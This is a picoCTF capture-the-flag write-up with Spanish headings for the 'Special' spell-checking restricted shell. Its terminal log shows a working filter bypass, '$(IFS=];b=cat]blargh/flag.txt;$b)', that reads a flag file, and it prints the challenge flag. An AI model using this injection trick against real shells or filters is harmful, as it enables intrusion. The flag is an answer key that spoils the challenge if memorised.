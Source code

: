 ## Descripción
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.

Additional details will be available after launching your challenge instance.

Hints:
1. Experiment with different shell syntax
## Solución 
~~~
Special$ ls
Is 
sh: 1: Is: not found
Special$ /bin/ls
Absolutely not paths like that, please!
Special$ echo Hola
Echo Hola 
sh: 1: Echo: not found
Special$ echo $PATH
Echo path 
sh: 1: Echo: not found
Special$ x=ls
Pals 
sh: 1: Pals: not found
Special$ $x
Ex 
sh: 1: Ex: not found
Special$ b=cat
Beat 
sh: 1: Beat: not found
Special$ IFS=]
Ifs 
sh: 1: Ifs: not found
Special$ echo Hola]Mundo
Echo Hola]Mundo 
sh: 1: Echo: not found
Special$ $(IFS=];b=cat]blargh/flag.txt;$b)
$(IFS=];b=cat]blargh/flag.txt;$b) 
sh: 1: picoCTF{5p311ch3ck_15_7h3_w0r57_b741d1b1}: not found
Special$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
SrRiv-picoctf@webshell:~$ 


picoCTF{5p311ch3ck_15_7h3_w0r57_b741d1b1}

~~~
## Notas adicionales 
## Referencias
